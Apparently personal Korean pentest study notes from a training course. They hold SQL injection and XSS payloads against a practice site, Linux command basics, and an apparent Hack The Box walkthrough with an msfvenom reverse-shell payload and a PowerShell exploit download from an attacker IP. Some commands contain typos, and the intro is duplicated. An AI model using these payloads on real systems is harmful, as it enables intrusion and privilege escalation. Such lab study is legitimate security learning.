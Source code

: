 1. 모의해킹 업무 - 보안성 심의, ISMS-P, SR
보안성 심의 - 웹사이트 서비스 전 심의
SR - 새로운 서비스에 대한 페이지, 메뉴에 대한 심의
ISMS-P - 인증을 위한 기술적 심



모의해킹 주의사항:
naver.com에 대한 모의해킹을 진행한다 했을 때, webtoon.naver.com과 같은 상위 도메인에 대한 해킹을 하지 않도록 주의
회원가입 주소찾기의 경우 url이 우체국.com 인 경우도 있는데, 이 경우 union 공격을 하면 안됨 신고당함1. 모의해킹 업무 - 보안성 심의, ISMS-P, SR
보안성 심의 - 웹사이트 서비스 전 심의
SR - 새로운 서비스에 대한 페이지, 메뉴에 대한 심의
ISMS-P - 인증을 위한 기술적 심



모의해킹 주의사항:
naver.com에 대한 모의해킹을 진행한다 했을 때, webtoon.naver.com과 같은 상위 도메인에 대한 해킹을 하지 않도록 주의
회원가입 주소찾기의 경우 url이 우체국.com 인 경우도 있는데, 이 경우 union 공격을 하면 안됨 신고당함

pentestmonkeyt > db sql injection 치트 시트

sql
프론트엔드(html, css) 백엔드(php, asp)
python, javascript, java, C,  


blind sql = 관리자' and (select count(table_name) from information_schema.tables) < 86 #

sas' or 1=1 #


##blind sql 과정
sas'-- 
sas'#

%
'
=
and
()
>
user()
length
사용 가능한지 확인

sas%' (                         ) and '%1%'='%1

sas%' () and '%1%'='%1

-------------------------------------------

sas%' and (1)=(1) and '%1%'='%1

sas%' and 'a'='a' and '%1%'='%1

sas%' and 1<2 and '%1%'='%1

sas%' and user()=user() and '%1%'='%1

sas%' and length(user()=user())>0  and '%1%'='%1

-------------------------------------------


sas%' and length(user())=15  and '%1%'='%1

sas%' and substring(user(),1,1)>char(104)  and '%1%'='%1
or
sas%' and ascii(substring(user(),1,1))>104  and '%1%'='%1 -> i

##blind sql 과정 finish


##burpsuite를 통한 패킷 인젝션
GET /exam7/notice.php?pageIndex=1&board_id=&sorting=title&sotingAd=DESC,case+when+1=1+then+1+else+(select+1+union+select+2)+end&startDt=&endDt=&searchType=all&keyword= HTTP/1.1
GET /exam12/notice.php?pageIndex=1&board_id=&sorting=&sotingAd=DESC&startDt=20231001&endDt=20231031+and+user()user()+and+1=1 &searchType=all&keyword= HTTP/1.1


sql을 예방하기 위한 방법인 prepared statement 중 parse bind execute fetch 단계에서 bind 부분이 가장 중요함 < 더 공부하기


##xss
크사 공격시 //가 필터링 되어 있다면 https:www.naver.com 혹은 https:\\www.naver.com 등으로 우회할 수 있음

reflected 크사 공격 예시 : GET /exam16/notice.php?pageIndex=1"><script>alert("xss")</script>&board_id=&sorting=&sotingAd=DESC&startDt=&endDt=&searchType=all&keyword=xss HTTP/1.1
reflected크사 공격 예시 : GET /exam17/noticeview.php?pageIndex=1&board_id=';}{alert("xss");'&sorting=&sotingAd=DESC&startDt=&endDt=&searchType=all&keyword= HTTP/1.1

##stored 크사 공격 예시 게시판:
POST /exam20/process/faqProcess.php HTTP/1.1
Host: quiz.sas.ne.kr
Content-Length: 649
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: ko-KR,ko;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvNc3w5VLMU4OrJW7
Origin: http://quiz.sas.ne.kr
Referer: http://quiz.sas.ne.kr/exam20/faqwrite.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=saq70jpkrdufu9868hpjmuokn5
Connection: keep-alive

------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="boardId"


------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="regType"


------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="title"

test
------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="fileupload"


------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="aFiles"


------WebKitFormBoundaryvNc3w5VLMU4OrJW7
Content-Disposition: form-data; name="content"

<p></p><script>alert("xss");</script>
------WebKitFormBoundaryvNc3w5VLMU4OrJW7--

##stored 크사 게시판 html 이용 : <img src="#" onerror="alert('XSS')"> 또는 <script>alert("xss");</script>





##kali linux
kali-linux-2024.3-vmware-amd64.vmwarevm 설치/ google kali linux

sudo apt-get install tree
tree -L 1

which passwd
which -a passwd
locate *flag.*
locate *flag.* -c 개수 출력

mkdir test
ls -alh 

cd test
touch flag.txt
sudo chown kali:kali flag.txt

echo "This is a flag file" | sudo tee flag.txt
find / -type f -user kali -name *flag.* -ls
find / -type f \( -perm -4000 -o -perm -2000 \) -ls

which passwd 
ls -l /usr/bin/passwd

##shell

##grep
grep sas *
grep sas -i *
grep sas -i -R *
grep sas -i -R -n*

cut -c 1-5 /etc/passwd
cut -d ":" -f 1 /etc/passwd
cut -d ":" -f 6 /etc/passwd

awk {print} /etc/passwd
awk -F ':' '{print $1}' /etc/passwd
awk -F ':' '{print $6}' /etc/passwd
awk -F ':' '{print "ID:" $1}' /etc/passwd


diff -c file1.txt file2.txt
![image](https://github.com/user-attachments/assets/e28033ab-bb2b-43d7-ad79-430b2620745f)


##listening/nmap
10.129.27.231

mkdir htb
mkdir htb/devel
cd htb/devel

nmap --top-ports 2000 --max-retries 2 -Pn -n --open --min-rate 1000 10.129.27.231 -oA tcpFull
nmap -p 21, 80 -sV -sC -Pn -n --open 10.129.17.110 -oA tcpDetailed

msfvenom -p windows/shell_reverse_tcp -f aspxlhost=10.10.14.25 lport=443 -o pentset.aspx

i686-w64-mingw32-gcc: 리눅스에서 윈도우용 실행파일을 생성하는 32비트 컴파일러
40564.c: 컴파일할 소스 코드 파일
-lws2_32: 윈도우 소켓 기능을 사용하기 위해 ws2_432 라이브러리를 링크

powershell.exe -c iex(new-objectnet.webclient).downloadfile('http://10.10.14.11:8443/ms11-046.exe', 'c:\windows\temp\ms11-046.exe')


##pentest senario
nmap --top-ports 2000 --,ax-retries 2 -Pn -n --open --min-rate 1000 10.129.27.231 -oA tcpfull
nmap -p 21, 80 -sV -sC -Pn -n --open 10.129.17.110 -oA tcpDetailed

ftp 10.129.27.231

80번 포트 -> http://10.129.27.231/  에도 접속 해봄

ftp -> get, put 읽고, 쓰기 기능 확인

ftp에 리버스 쉘을 업로드해서 실행시켜서 접속시킬 예정
msfvenom -p windows/shell_reverse_tcp -f aspx
1host=10.10.14.11 lport=443 -o pentest.aspx

ftp를 이용해서 공격자 pc 에서 만들 리버스 쉘 페이로드를 타겟 px로 파일 전송
공격자 리스닝해주고, 웹페이지 접속해서 업로드된 페이로드 실행

systeminfo
운영체제 확인 후 핫픽스 확인 -> kernel exploit -> wesng

sudo pip3 install wesng
wes --update

wes systeminfo.txt -o out.csv
cat out.csv | grep -i privilege | grep -i 'windows 7' | grep -i exploit-db

searchsploit 40564 -p
cp
/usr/share/exploitdb/exploits/windows_x86/local/40564.c.

컴파일러 설치
apt update -y
apt install mingw-w64 -y

커널 exploit에 사용할 pe 파일 컴파일
